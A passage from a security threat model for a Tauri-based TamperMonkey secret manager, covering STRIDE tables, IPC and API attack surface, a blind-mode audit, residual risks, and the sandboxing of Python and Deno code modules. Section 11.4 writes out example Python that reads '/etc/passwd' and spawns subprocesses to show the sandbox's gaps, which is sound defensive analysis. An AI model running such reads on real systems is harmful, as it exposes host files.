| **I**nformation Disclosure | Blind value leaks through IPC to frontend | [`get_secret`](../src-tauri/src/commands.rs:657) returns `None` for blind; [`list_secrets`](../src-tauri/src/commands.rs:693) never decrypts; [`update_secret`](../src-tauri/src/commands.rs:723) only accepts new values | Mitigated | See Section 5 for comprehensive audit |
| **D**enial of Service | N/A | N/A | N/A | |
| **E**levation of Privilege | User with frontend access circumvents blind mode through developer tools | Blind check is enforced in Rust backend, not frontend; webview devtools cannot bypass [`get_secret`](../src-tauri/src/commands.rs:657) returning None | Mitigated | Security boundary is at Rust IPC handler level |

### 2.9 Script Approval System

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Malicious script impersonates approved script by using same script_id | Bearer token is primary auth gate; script_id is trust-on-first-use; spoofing requires token compromise first | Accepted | Fundamental limitation -- TamperMonkey scripts self-report identity |
| **T**ampering | Attacker modifies approval status in database directly | DB file permissions restrict access; approval changes logged in audit | Partially Mitigated | |
| **R**epudiation | Script denies accessing a secret | Audit log records `secret_accessed_via_api` with script_id per [`get_secret_api`](../src-tauri/src/api/routes.rs:292); `script_auto_registered` logged on first contact | Mitigated | Script ID is self-reported but logged consistently |
| **I**nformation Disclosure | Unapproved script learns secret names from error messages | API returns generic HTTP status codes (403, 404) -- no secret names in error responses per [`get_secret_api`](../src-tauri/src/api/routes.rs:137) | Mitigated | |
| **I**nformation Disclosure | **[NEW]** Unapproved script triggers toast showing secret name in frontend | Toast shows `script_name` wants access to `secret_name` in [`AccessRequestToast.tsx:188`](../src/components/ui/AccessRequestToast.tsx:188) | Accepted | Information only visible to the local user who already has full access to secret names |
| **D**enial of Service | Attacker floods registration endpoint to fill database with fake scripts | Rate limiting at 60 req/min; auto-registration creates minimal DB rows | Partially Mitigated | Over time, many fake registrations could accumulate |
| **D**enial of Service | **[NEW]** Toast flooding via rapid unapproved requests | Rate limiting at 60 req/min; duplicate key suppression in [`AccessRequestToast.tsx:65`](../src/components/ui/AccessRequestToast.tsx:65) prevents duplicate toasts for same script+secret pair | Partially Mitigated | Could still show up to 60 unique toasts per minute if each request uses a different script_id |
| **E**levation of Privilege | Newly registered script gains automatic access | Scripts register as `approved: false`; per-secret access defaults to unapproved via [`create_access_request()`](../src-tauri/src/db/mod.rs:524) | Mitigated | Explicit user approval required at both script and per-secret level |
| **E**levation of Privilege | **[NEW]** Accidental one-click approval grants access | Toast requires deliberate click on small Approve button; no auto-approve timeout | Partially Mitigated | See Section 1.4 for detailed analysis; recommend approval cooldown |

### 2.10 Auto-Lock Mechanism

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | N/A | N/A | N/A | |
| **T**ampering | Attacker modifies auto_lock_minutes in config table to disable auto-lock | DB file permissions restrict access; setting changes require IPC command | Partially Mitigated | Direct DB access could change value; app reloads setting on unlock |
| **I**nformation Disclosure | App remains unlocked indefinitely if user walks away | Auto-lock timer defaults to 15 minutes per [`AppState::new()`](../src-tauri/src/state.rs:29); frontend polls every 30 seconds via [`useAutoLock`](../src/hooks/useAutoLock.ts:12) | Mitigated | User can set 0 (disabled), 1, 5, 10, 15, 30, or 60 minutes |
| **D**enial of Service | Auto-lock triggers mid-operation causing data loss | All secret operations via [`enforce_unlocked_or_auto_lock()`](../src-tauri/src/commands.rs:128) check and touch the timer atomically | Mitigated | Timer is reset on every secret-accessing command |

---

## 3. Attack Surface Enumeration

### 3.1 IPC Commands (28 total)

All commands are registered in [`lib.rs`](../src-tauri/src/lib.rs:65) via `tauri::generate_handler![]`.

| # | Command | Parameters | Auth Required | Data Access | Blind-Safe |
|---|---------|-----------|---------------|-------------|------------|
| 1 | [`check_first_run`](../src-tauri/src/commands.rs:153) | none | No | Reads master_config existence | Yes |
| 2 | [`setup_master_password`](../src-tauri/src/commands.rs:168) | `password: String` | No (first run only) | Creates master_config; stores key in memory | Yes |
| 3 | [`unlock`](../src-tauri/src/commands.rs:237) | `password: String` | No | Reads master_config; stores key in memory | Yes |
| 4 | [`lock`](../src-tauri/src/commands.rs:320) | none | No | Zeroizes master key | Yes |
| 5 | [`get_app_status`](../src-tauri/src/commands.rs:333) | none | No | Reads is_unlocked + has_config | Yes |
| 6 | [`change_master_password`](../src-tauri/src/commands.rs:372) | `current_password, new_password` | Unlock | Re-encrypts all secrets atomically | Yes |
| 7 | [`set_auto_lock_minutes`](../src-tauri/src/commands.rs:520) | `minutes: u32` | No* | Updates auto-lock timeout | Yes |
| 8 | [`get_auto_lock_minutes`](../src-tauri/src/commands.rs:558) | none | No* | Reads auto-lock timeout | Yes |
| 9 | [`create_secret`](../src-tauri/src/commands.rs:574) | `name, value` | Unlock | Encrypts and stores secret | Yes |
| 10 | [`get_secret`](../src-tauri/src/commands.rs:620) | `name` | Unlock | Decrypts and returns value (None if blind) | **Yes -- blind returns None** |
| 11 | [`list_secrets`](../src-tauri/src/commands.rs:693) | none | Unlock | Returns metadata only, never values | Yes |
| 12 | [`update_secret`](../src-tauri/src/commands.rs:723) | `name, value` | Unlock | Re-encrypts with new value | Yes (write-only) |
| 13 | [`delete_secret`](../src-tauri/src/commands.rs:767) | `name` | Unlock | Deletes from DB | Yes |
| 14 | [`add_env_var_to_allowlist`](../src-tauri/src/commands.rs:794) | `var_name` | No* | Adds env var name to allowlist | Yes |
| 15 | [`remove_env_var_from_allowlist`](../src-tauri/src/commands.rs:817) | `var_name` | No* | Removes from allowlist | Yes |
| 16 | [`list_env_var_allowlist`](../src-tauri/src/commands.rs:839) | none | No* | Lists names + is_set status (no values) | Yes |
| 17 | [`read_env_var`](../src-tauri/src/commands.rs:868) | `var_name` | Unlock | Reads actual env var value if on allowlist | N/A (env vars) |
| 18 | [`export_vault_file`](../src-tauri/src/commands.rs:914) | `secret_names, pin, file_path, mark_blind, expires_at` | Unlock | Decrypts secrets, re-encrypts with PIN | Yes (value in memory briefly) |
| 19 | [`import_vault_file`](../src-tauri/src/commands.rs:1000) | `file_path, pin` | Unlock | Decrypts vault, re-encrypts with master key | Yes (blind flag preserved) |
| 20 | [`list_scripts_cmd`](../src-tauri/src/commands.rs:1103) | none | No* | Lists script registrations | Yes |
| 21 | [`approve_script_cmd`](../src-tauri/src/commands.rs:1130) | `script_id` | No* | Sets approved=true | Yes |
| 22 | [`revoke_script`](../src-tauri/src/commands.rs:1150) | `script_id` | No* | Sets approved=false | Yes |
| 23 | [`delete_script_cmd`](../src-tauri/src/commands.rs:1170) | `script_id` | No* | Deletes script + access records | Yes |
| 24 | [`list_script_access`](../src-tauri/src/commands.rs:1190) | `script_id` | No* | Lists script-secret access pairs | Yes |
| 25 | [`set_script_secret_access`](../src-tauri/src/commands.rs:1222) | `script_id, secret_name, approved` | No* | Creates/updates access record | Yes |
| 26 | [`get_audit_log`](../src-tauri/src/commands.rs:1254) | `limit: Option<u32>` | No* | Reads audit entries (no secret values) | Yes |
| 27 | [`get_api_info`](../src-tauri/src/commands.rs:1287) | none | No* | Returns port + bearer token | Yes |
| 28 | [`rotate_api_token`](../src-tauri/src/commands.rs:1319) | none | No* | Generates new token, persists to disk + memory | Yes |

> *\*No* = command does not check `master_key.is_none()`. These are administrative commands that work regardless of lock state. The commands marked "No*" for env vars (#14-16) and scripts (#20-25) do not require unlock. This is by design -- managing the allowlist and approvals should be possible while locked.

**Finding**: Commands #7, #8, #14, #15, #20, #21, #22, #23, #25, #26, #27, #28 do not verify the app is unlocked. This is intentional for administrative functions but means a compromised webview could modify script approvals, env var allowlists, rotate the API token, or change the auto-lock setting without the master password.

### 3.2 HTTP API Endpoints (3 total)

Defined in [`server.rs`](../src-tauri/src/api/server.rs:95):

| Method | Path | Auth | Rate Limited | Purpose |
|--------|------|------|-------------|---------|
| GET | `/api/health` | None | Yes (60/min) | Health check -- returns `{"status":"ok"}` |
| POST | `/api/secrets/{name}` | Bearer token | Yes (60/min) | Retrieve secret value; requires script approval + per-secret access |
| POST | `/api/register` | Bearer token | Yes (60/min) | Register a script; returns approval status |

**Security Headers on Secret Responses:**
- `Cache-Control: no-store, no-cache, must-revalidate`
- `Pragma: no-cache`
- `X-Content-Type-Options: nosniff`

**CORS**: `CorsLayer::permissive()` per [`server.rs`](../src-tauri/src/api/server.rs:99) -- this is necessary because TamperMonkey's `GM_xmlhttpRequest` bypasses browser CORS, but other localhost callers benefit from permissive CORS. Since the API is localhost-only with bearer auth, this is acceptable.

**[NEW] Tauri Events Emitted from API Handlers:**

| Event | Trigger | Payload | Emitted From |
|-------|---------|---------|-------------|
| `secret-access-requested` | Script requests a secret it has no access record for | `{ script_id, script_name, secret_name }` | [`routes.rs:225`](../src-tauri/src/api/routes.rs:225) |
| `script-pending-approval` | Unknown script auto-registers (via secret fetch or register endpoint) | `{ script_id, script_name, domain }` | [`routes.rs:185`](../src-tauri/src/api/routes.rs:185), [`routes.rs:346`](../src-tauri/src/api/routes.rs:346) |

### 3.3 File System Artifacts

| File | Path | Permissions | Contains | Sensitivity |
|------|------|------------|----------|-------------|
| `api.token` | `{AppData}/tampermonkey-secrets/api.token` | icacls: current user R,W | 43-char base64url bearer token | **High** -- **[UPDATED]** persistent credential; grants API access indefinitely |
| `api.port` | `{AppData}/tampermonkey-secrets/api.port` | icacls: current user R,W | Port number (plaintext) | Low -- informational; **[UPDATED]** typically 17179 |
| `secrets.db` | `{AppData}/tampermonkey-secrets/secrets.db` | icacls: current user full control | Encrypted secrets, plaintext metadata, audit log | **High** -- contains encrypted secrets + plaintext metadata |
| `secrets.db-wal` | Same directory | Inherits parent | SQLite WAL journal | Medium -- may contain recent writes |
| `*.tmvault` | User-chosen path | OS default | AES-256-GCM encrypted secrets | **High** -- portable encrypted vault |

### 3.4 Process Memory

| Data | Lifetime | Zeroization | Risk |
|------|----------|-------------|------|
| Master key (`[u8; 32]`) | While unlocked (max auto-lock timeout) | Zeroized on [`lock()`](../src-tauri/src/state.rs:54) via `zeroize` crate | Medium -- must persist for functionality |
| Decrypted secret values | Momentary (during command execution) | Zeroized after use in [`get_secret`](../src-tauri/src/commands.rs:670), [`create_secret`](../src-tauri/src/commands.rs:598), [`update_secret`](../src-tauri/src/commands.rs:748) | Low -- brief window |
| Bearer token | App lifetime | Zeroized on rotation in [`rotate_api_token`](../src-tauri/src/commands.rs:1333) | Medium -- required for API auth |
| Master password string | Brief (during setup/unlock) | Zeroized immediately after KDF in [`setup_master_password`](../src-tauri/src/commands.rs:178) and [`unlock`](../src-tauri/src/commands.rs:258) | Low -- very brief window |
| Vault PIN string | Brief (during export/import) | Zeroized after use in [`export_vault_file`](../src-tauri/src/commands.rs:978) and [`import_vault_file`](../src-tauri/src/commands.rs:1027) | Low -- very brief window |
| Vault secret values | Brief (during export/import) | Zeroized per-secret in export loop per [`export_vault_file`](../src-tauri/src/commands.rs:969) and import loop per [`import_vault_file`](../src-tauri/src/commands.rs:1087) | Low -- brief window |
| AppHandle reference | App lifetime | N/A (not sensitive data) | None -- handle is a framework object |

---

## 4. Data Flow Analysis

### Flow 1: KV Secret Creation

**Plaintext locations:**
1. React component state -- until IPC call completes
2. Tauri IPC bridge -- serialized in transit (in-process)
3. `value` parameter in [`create_secret`](../src-tauri/src/commands.rs:574) -- until zeroized at line 599
4. Inside `encrypt()` -- briefly during AES-GCM operation

### Flow 2: KV Secret Retrieval (UI -- non-blind)

### Flow 3: KV Secret Retrieval (HTTP API)

```mermaid
graph LR
    A[TamperMonkey: POST /api/secrets/NAME] --> B[verify_bearer - constant-time]
    B --> C[validate_secret_name]
    C --> D[Check is_unlocked]
    D --> E[Check script approved]
    E --> F[Check per-secret access approved]
    F --> G[Check secret expiration]
    G --> H[Get master_key]
    H --> I[db.get_secret_by_name]
    I --> J[decrypt]
    J --> K[String::from_utf8]
    K --> L[Log: secret_accessed_via_api]
    L --> M[Set no-cache headers]
    M --> N[Clone plaintext to response_body]
    N --> O[Zeroize plaintext]
    O --> P[Return HTTP 200 with body]
```

### Flow 4: [NEW] Toast Approval Flow

### Flow 5: Environment Variable Read

### Flow 6: Master Password Change

---

## 5. Blind Mode Bypass Audit

### 5.1 IPC Command Audit

| Command | Blind-Safe? | Evidence |
|---------|-------------|----------|
| [`get_secret`](../src-tauri/src/commands.rs:620) | **Yes** | Line 657: `if secret.blind { None }` -- decryption is skipped entirely for blind secrets |
| [`list_secrets`](../src-tauri/src/commands.rs:693) | **Yes** | Returns `SecretMetadata` struct which has no `value` field -- never decrypts any values |
| [`update_secret`](../src-tauri/src/commands.rs:723) | **Yes** | Write-only -- accepts a new value but never returns the old value |
| [`delete_secret`](../src-tauri/src/commands.rs:767) | **Yes** | Deletes by name -- never decrypts or returns values |
| [`create_secret`](../src-tauri/src/commands.rs:574) | **Yes** | Write-only -- encrypts and stores; creates with `blind: false` by default |
| [`change_master_password`](../src-tauri/src/commands.rs:372) | **Acceptable** | Decrypts and re-encrypts all secrets (including blind); values never sent to frontend |
| [`export_vault_file`](../src-tauri/src/commands.rs:914) | **Acceptable** | Decrypts blind secrets for re-encryption into vault file; value goes to disk (encrypted), never to frontend |
| [`import_vault_file`](../src-tauri/src/commands.rs:1000) | **Yes** | Returns `ImportedSecretInfo` which contains `name, blind, success, error` -- no `value` field |
| [`read_env_var`](../src-tauri/src/commands.rs:868) | **N/A** | Env vars are not in the secrets table; no blind concept |
| [`get_api_info`](../src-tauri/src/commands.rs:1287) | **N/A** | Returns port + token, not secret values |
| [`get_audit_log`](../src-tauri/src/commands.rs:1254) | **Yes** | Returns event_type, script_id, secret_name, timestamp -- never values |

### 5.2 HTTP API Audit

| Endpoint | Blind-Safe? | Evidence |
|----------|-------------|----------|
| [`get_secret_api`](../src-tauri/src/api/routes.rs:137) | **By Design** | Serves blind secret values to approved scripts -- this is the intended consumption path for blind secrets |
| [`register_script_api`](../src-tauri/src/api/routes.rs:313) | **Yes** | Returns approval status only |
| [`health`](../src-tauri/src/api/routes.rs:129) | **Yes** | Returns static JSON |

### 5.3 [NEW] Tauri Event Audit

| Event | Contains Secret Values? | Evidence |
|-------|------------------------|----------|
| `secret-access-requested` | **No** | Payload is `AccessRequestEvent { script_id, script_name, secret_name }` -- name only, no value |
| `script-pending-approval` | **No** | Payload is `ScriptPendingEvent { script_id, script_name, domain }` -- no secret info at all |

### 5.4 Conclusion

**Can blind mode be bypassed through any documented code path?**

**No.** Blind mode enforcement remains correctly implemented after the recent changes:

1. The security boundary is at the Rust backend level -- the frontend cannot request blind values through any IPC command.
2. [`get_secret`](../src-tauri/src/commands.rs:657) checks `secret.blind` before decryption and returns `None`.
3. [`list_secrets`](../src-tauri/src/commands.rs:693) never decrypts any values.
4. No log statement, error message, audit entry, or **Tauri event** contains secret values.
5. The HTTP API serves blind values by design -- this is the intended path for TamperMonkey scripts.
6. Vault export and master password change necessarily decrypt blind values for re-encryption, but the plaintext only flows to encrypted storage, never to the frontend.
7. The new toast notifications display only `secret_name`, not secret values.

---

## 6. Dependency Audit

### 6.1 Rust Crates

Source: [`Cargo.toml`](../src-tauri/Cargo.toml)

| Crate | Version | Purpose | Security Notes |
|---|---|---|---|
| `aes-gcm` | 0.10 | AES-256-GCM authenticated encryption | RustCrypto project; widely reviewed |
| `argon2` | 0.5 | Argon2id key derivation | RustCrypto project; PHC winner |
| `rand` | 0.8 | Cryptographic randomness | Uses `OsRng` (CSPRNG backed by OS entropy) |
| `rusqlite` | 0.32 | SQLite database | `bundled` feature compiles SQLite from source |
| `zeroize` | 1.x | Secure memory wiping | RustCrypto project; volatile writes |
| `axum` | 0.8 | HTTP server | Tokio project; production-grade |
| `tower-http` | 0.6 | CORS middleware | Tokio project; `cors` feature |
| `tokio` | 1.x | Async runtime | `full` feature; industry standard |
| `serde` | 1.x | Serialization | `derive` feature |
| `serde_json` | 1.x | JSON parsing | |
| `thiserror` | 2.x | Error type derivation | Compile-time only |
| `base64` | 0.22 | Token encoding | |
| `chrono` | 0.4 | Timestamps | `serde` feature |
| `tauri` | 2.x | Desktop framework | Well-maintained; security-focused |
| `tauri-plugin-opener` | 2.x | URL/file opening | Official Tauri plugin |
| `tauri-plugin-dialog` | 2.x | File dialogs | Official Tauri plugin |

### 6.2 npm Packages

Source: [`package.json`](../package.json)

| Package | Version | Purpose | Security Notes |
|---|---|---|---|
| `react` | ^19.1.0 | UI framework | Meta/community maintained |
| `react-dom` | ^19.1.0 | DOM rendering | |
| `zustand` | ^5.0.11 | State management | Minimal footprint |
| `lucide-react` | ^0.577.0 | Icon library | SVG icons |
| `tailwindcss` | ^4.2.1 | CSS framework | Build-time only |
| `@tailwindcss/vite` | ^4.2.1 | Vite plugin | Build-time only |
| `@tauri-apps/api` | ^2 | Tauri IPC bridge | Official |
| `@tauri-apps/plugin-dialog` | ^2.6.0 | File dialog bindings | Official |
| `@tauri-apps/plugin-opener` | ^2 | URL/file opener | Official |

### 6.3 Recommendations

1. Run `cargo audit` regularly to check for known CVEs in Rust dependencies
2. Run `npm audit` regularly to check for known CVEs in npm dependencies
3. Pin exact versions in `Cargo.toml` (currently using semver ranges) for reproducible builds
4. Verify `Cargo.lock` and `package-lock.json` are committed to version control (both are present)
5. Consider enabling `cargo-vet` for supply chain verification of new dependencies

---

## 7. Residual Risk Register

| # | Risk | Severity | Likelihood | Mitigation Status | Accepted? | Notes |
|---|---|---|---|---|---|---|
| 1 | Local admin reads api.token file | Medium | Low | icacls restricts to current user | Yes | Admin/SYSTEM can bypass any user-level ACL; inherent OS limitation |
| 2 | Malware reads process memory while unlocked | High | Low | Master key zeroized on lock; secret values zeroized after use; auto-lock timer defaults to 15 min | Yes | Sophisticated malware can dump memory; auto-lock reduces window |
| 3 | Weak master password chosen by user | High | Medium | No complexity enforcement currently | Accepted with recommendation | Add password strength meter |
| 4 | Weak vault PIN enables brute force of .tmvault | Medium | Medium | Minimum 6 characters enforced in [`validate_pin`](../src-tauri/src/commands.rs:112); Argon2id KDF slows brute-force | Accepted with recommendation | Recommend minimum 8 chars + complexity rules |
| 5 | Self-reported script_id enables impersonation | Medium | Low | Bearer token is primary auth; impersonation requires token compromise first | Accepted | Trust-on-first-use model; no client authentication beyond token |
| 6 | SQLite metadata (secret names, scripts, audit) readable without master password | Medium | Low | DB file permissions hardened via icacls | Accepted | Encrypting metadata would prevent search/list without decryption |
| 7 | Expired token on disk could be recovered from file system journal | Low | Low | Token file overwritten on rotation; icacls restricts access | Accepted | Full-disk encryption recommended for high-security environments |
| 8 | **[NEW]** Persistent token increases compromise window | Medium | Low | Manual rotation available; per-script + per-secret checks still enforced | Accepted with recommendation | See Section 1.1 -- recommend auto-rotation schedule |
| 9 | **[NEW]** Port squatting on 17179 could intercept tokens from hardcoded scripts | Medium | Very Low | Fallback to random port; `api.port` file reflects actual port | Accepted with recommendation | See Section 1.2 -- recommend scripts read api.port file |
| 10 | **[NEW]** One-click toast approval could lead to accidental secret exposure | Medium | Low | Toast requires deliberate click; approval is revocable | Accepted with recommendation | See Section 1.4 -- recommend approval cooldown |

---

## 8. Incident Response Playbook

### 8.1 Bearer Token Compromise

1. **Detect**: Unexpected entries in audit log (`secret_accessed_via_api` from unknown `script_id`)
2. **Contain**: Immediately rotate the token via Settings > Rotate API Token (calls [`rotate_api_token`](../src-tauri/src/commands.rs:1319))
3. **Assess**: Review audit log for all `secret_accessed_via_api` events during the compromise window
4. **Remediate**: Revoke suspicious script registrations; rotate any secrets that were accessed
5. **Prevent**: Verify `api.token` file permissions; enable auto-rotation schedule

### 8.2 Vault File (.tmvault) Leaked

1. **Detect**: External report or discovery of vault file in unintended location
2. **Contain**: Cannot revoke a file -- the PIN is the only protection
3. **Assess**: Determine which secrets were in the vault (check audit log for `vault_exported` events)
4. **Remediate**: Rotate all secrets that were included in the leaked vault
5. **Prevent**: Use strong PINs; set expiration dates on sensitive vaults; delete vault files after import

### 8.3 Dependency Vulnerability Discovered

1. **Detect**: `cargo audit` or `npm audit` flags a CVE
2. **Assess**: Determine if the vulnerable code path is reachable in this application
3. **Remediate**: Update the dependency; test; redeploy
4. **Prevent**: Regular dependency audits; consider automated CI checks

---

## 9. Recommendations for Future Improvement

| # | Recommendation | Category | Priority | Status |
|---|---------------|----------|----------|--------|
| 1 | Add password strength meter to master password setup | UX/Security | Medium | Planned |
| 2 | Enforce minimum PIN complexity (digits + letters) | Crypto | Medium | Planned |
| 3 | Add optional auto-rotation schedule for bearer token | API Security | Medium | Planned |
| 4 | Display token age in Settings UI | UX | Low | Planned |
| 5 | Add approval cooldown (2-3s delay) on toast Approve button | UX/Security | Medium | Planned |
| 6 | Add configurable "confirm before approve" dialog | UX/Security | Medium | Planned |
| 7 | Maximum concurrent toast limit (collapse to summary) | UX | Medium | Planned |
| 8 | Use `OnceLock<AppHandle>` instead of `Mutex<Option<AppHandle>>` | Performance | Low | Planned |
| 9 | Document port-squatting risk in user-facing docs | Documentation | Medium | Planned |
| 10 | Emit warning event when fallback port is used | API Security | Medium | Planned |
| 11 | Server identity verification on health endpoint | API Security | Low | Planned |

---

## 10. Overall Security Posture Assessment

**Rating: GOOD -- suitable for its intended use case**

The TamperMonkey Secret Manager provides a meaningful security improvement over the common practice of hardcoding API keys and credentials directly in TamperMonkey scripts. The application's security model is appropriate for a single-user desktop application managing moderate-sensitivity credentials.

**Strengths:**
- Industry-standard cryptographic primitives (AES-256-GCM, Argon2id)
- Defence-in-depth with two-layer authorization (token + per-script/per-secret approval)
- Comprehensive audit logging
- Secure memory handling with zeroization
- Blind mode enforcement at the Rust backend level (not bypassable from frontend)
- Well-structured code with clear separation of concerns

**Areas for improvement:**
- Password/PIN complexity enforcement
- Token lifecycle management (auto-rotation, age display)
- Toast approval UX hardening (cooldown, confirmation dialog)
- Formal adversarial testing (token replay, PIN brute force, script spoofing)
- Regular dependency auditing pipeline

**Trust model**: The application operates within a local trust boundary. It assumes the current OS user account is trusted and that the physical machine is not compromised. This is appropriate for a desktop credential manager but means it is not suitable for multi-user or server-deployed scenarios.

---

## 11. Blind Code Modules -- Security Assessment (Phase 8)

**Date**: 2026-03-20
**Scope**: Full security review of the Blind Code Modules feature including Rhai execution engine, Python subprocess executor, Deno (JS/TS) subprocess executor, .tmcode file format, API endpoint, IPC commands, and frontend components.

### 11.1 Feature Overview

Blind Code Modules address the fundamental weakness in the blind secret model: once a TamperMonkey script is approved to access a blind secret, it receives the raw plaintext value and could exfiltrate it. Blind Code Modules keep secrets server-side by executing encrypted code within TMSM that uses secrets internally and returns only computed results.

Supported languages:
- **Rhai**: Embedded scripting engine running in-process via [`executor.rs`](../src-tauri/src/secrets/executor.rs)
- **Python**: Subprocess with restricted environment via [`subprocess_executor.rs`](../src-tauri/src/secrets/subprocess_executor.rs:18)
- **JavaScript/TypeScript**: Subprocess via Deno runtime with permission flags via [`subprocess_executor.rs`](../src-tauri/src/secrets/subprocess_executor.rs:116)

Execution dispatch: [`dispatch_execute()`](../src-tauri/src/secrets/executor.rs:314) routes by language string to the appropriate engine.

### 11.2 STRIDE Analysis -- Blind Code Execution

| STRIDE Category | Threat | Current Mitigation | Status | Notes |
|---|---|---|---|---|
| **S**poofing | Malicious script impersonates approved script to execute code | Three-layer auth: bearer token + script approval + per-module access in [`execute_code_api`](../src-tauri/src/api/routes.rs:391) | Mitigated | Same trust model as secret access; script_id is self-reported but requires token |
| **T**ampering | Attacker modifies encrypted code in database to alter execution | AES-256-GCM authenticated encryption; any tampering causes decryption failure | Mitigated | Code is encrypted with master key before DB storage |
| **T**ampering | Attacker modifies parameters sent to module | [`validate_params()`](../src-tauri/src/secrets/executor.rs:239) rejects any parameter not in `allowed_params` list | Mitigated | Allowlist enforced before execution |
| **R**epudiation | Script denies executing a module | Audit log records `code_module_executed` with `script_id` and `module_name` in [`execute_code_api`](../src-tauri/src/api/routes.rs:549) | Mitigated | Script ID is self-reported but logged consistently |
| **I**nformation Disclosure | Secret values leak through execution output | Secrets are injected into scope as variables; output is whatever the script returns -- **secrets could appear in output if the code author includes them** | Partially Mitigated | By design, the code author controls output; the security boundary is at the approval level |
| **I**nformation Disclosure | Blind module code leaked to frontend | [`get_blind_code_module_code`](../src-tauri/src/commands.rs:1824) returns `None` for blind modules; [`list_blind_code_modules`](../src-tauri/src/commands.rs:1418) never includes code | Mitigated | See Section 11.8 for full audit |
| **D**enial of Service | Infinite loop or resource exhaustion in Rhai script | [`set_max_operations(100_000)`](../src-tauri/src/secrets/executor.rs:74) caps computation; [`set_max_string_size(1MB)`](../src-tauri/src/secrets/executor.rs:75) caps memory | Mitigated | Rhai engine enforces resource limits |
| **D**enial of Service | Subprocess hangs indefinitely (Python/Deno) | `wait_with_output()` blocks indefinitely -- **no timeout enforcement** | **Residual** | See Risk R-11.1 below |
| **D**enial of Service | Module expiration bypassed | Expiration checked before execution in [`execute_code_api`](../src-tauri/src/api/routes.rs:463); returns HTTP 410 Gone if expired | Mitigated | Timestamp is inside encrypted payload, tamper-resistant |
| **E**levation of Privilege | Unapproved script executes code module | Three-layer check: script registration + script approval + per-module access in [`execute_code_api`](../src-tauri/src/api/routes.rs:425) | Mitigated | Unapproved access auto-creates request record and emits toast |
| **E**levation of Privilege | Code module accesses secrets beyond its `required_secrets` list | [`resolve_secrets()`](../src-tauri/src/secrets/executor.rs:199) only decrypts secrets listed in `required_secrets`; the Rhai `secrets` map contains only those values | Mitigated | No `secret()` function registered -- only pre-resolved values in scope |

### 11.3 Rhai Engine Security

The Rhai execution engine is configured in [`build_engine()`](../src-tauri/src/secrets/executor.rs:69) with the following security controls:

| Control | Setting | Purpose |
|---------|---------|---------|
| Max expression depth | 64 / 32 (global / function) | Prevents stack overflow via deeply nested expressions |
| Max operations | 100,000 | Prevents infinite loops and excessive computation |
| Max string size | 1 MB | Prevents memory exhaustion via string concatenation |
| Max array size | 10,000 | Prevents memory exhaustion via large arrays |
| Max map size | 10,000 | Prevents memory exhaustion via large maps |
| File system access | None | Rhai engine has no `import` capability or FS functions registered |
| Process management | None | No `system()` or process-spawning functions registered |
| Module imports | None | No module resolver configured |
| HTTP access | `http_get()`, `http_post()` | Registered with 30-second timeout via [`reqwest::blocking::Client`](../src-tauri/src/secrets/executor.rs:81) |

**Registered custom functions:**

| Function | Signature | Risk Assessment |
|----------|-----------|-----------------|
| [`http_get`](../src-tauri/src/secrets/executor.rs:80) | `http_get(url: String, headers: Map) -> String` | **Medium** -- enables network access for API calls, but also enables data exfiltration |
| [`http_get`](../src-tauri/src/secrets/executor.rs:113) | `http_get(url: String) -> String` | Same as above, convenience overload |
| [`http_post`](../src-tauri/src/secrets/executor.rs:137) | `http_post(url: String, headers: Map, body: String) -> String` | **Medium** -- same exfiltration risk; body could contain secrets |
| [`http_post`](../src-tauri/src/secrets/executor.rs:169) | `http_post(url: String, body: String) -> String` | Same as above, convenience overload |

**Secret injection mechanism**: Secrets are injected as a `secrets` map in the Rhai [`Scope`](../src-tauri/src/secrets/executor.rs:278) via `scope.push("secrets", secrets_map)`. After execution, all secret values are zeroized in [`execute_module()`](../src-tauri/src/secrets/executor.rs:304).

**Finding**: The Rhai scope cloning behaviour means secret values exist in both the `ExecutionContext.secrets` HashMap (zeroized after execution) and the Rhai `Scope` (which is dropped but not explicitly zeroized). The Rhai `Dynamic` values holding secrets will be deallocated by Rust's allocator but not overwritten with zeros. This is a minor residual memory risk consistent with the existing process memory risk (Risk #2 in Section 7).

### 11.4 Python Subprocess Security

The Python executor in [`execute_python()`](../src-tauri/src/secrets/subprocess_executor.rs:18) applies the following sandbox:

| Control | Implementation | Effectiveness |
|---------|---------------|---------------|
| Environment clearing | [`env_clear()`](../src-tauri/src/secrets/subprocess_executor.rs:52) | High -- removes all inherited env vars |
| Selective env restoration | `PATH`, `SYSTEMROOT`, `TEMP`, `TMP`, `PYTHONDONTWRITEBYTECODE`, `PYTHONUNBUFFERED` | Necessary for Python to function and perform network I/O |
| Secret delivery | stdin as JSON via [`write_all(input_json)`](../src-tauri/src/secrets/subprocess_executor.rs:74) | High -- secrets never appear in command-line args (not visible in process listing) |
| Code delivery | `-c` flag with inline code via [`args(["-c", &wrapper_script])`](../src-tauri/src/secrets/subprocess_executor.rs:47) | Medium -- code is visible in process listing via `/proc/PID/cmdline` on Linux; less of a concern on Windows |
| Network access | Allowed by default (no restriction) | By design -- needed for API calls |
| Filesystem access | **Not restricted** | **Residual risk** -- Python can `import os`, `open()` files, etc. |
| Post-execution zeroization | Secrets zeroized in Rust after `wait_with_output()` at [line 91](../src-tauri/src/secrets/subprocess_executor.rs:91) | Partial -- Python process memory is not zeroized; only the Rust-side HashMap copies |
| Timeout | **None** -- `wait_with_output()` blocks indefinitely at [line 79](../src-tauri/src/secrets/subprocess_executor.rs:79) | **Missing** |

**Specific risks:**

1. **Filesystem access**: Python's standard library provides unrestricted filesystem access. A module could `import os; os.listdir('/')` or `open('/etc/passwd').read()`. The `env_clear()` does not prevent this.
   - **Severity**: Medium
   - **Mitigation**: Code is encrypted and must be approved before execution. The code author and approver are trusted parties. On Windows, the Python process runs as the current user and cannot access files outside its permission scope.
   - **Recommendation**: Consider using `RestrictedPython` or running in a container for higher-security deployments.

2. **Process spawning**: Python can `import subprocess; subprocess.run(...)` to execute arbitrary commands on the host.
   - **Severity**: Medium
   - **Mitigation**: Same as filesystem -- relies on code trust model. The `env_clear()` means spawned processes inherit a minimal environment.
   - **Recommendation**: Consider a Python security policy or audit wrapper.

3. **Secret leakage in command line**: The wrapper script is passed via `-c`, making it visible in process listings. However, secrets are passed via stdin, not command-line arguments, which is correct.
   - **Severity**: Low
   - **Mitigation**: stdin-based injection is the recommended pattern.

### 11.5 Deno Subprocess Security

The Deno executor in [`execute_deno()`](../src-tauri/src/secrets/subprocess_executor.rs:116) applies the following sandbox:

| Control | Implementation | Effectiveness |
|---------|---------------|---------------|
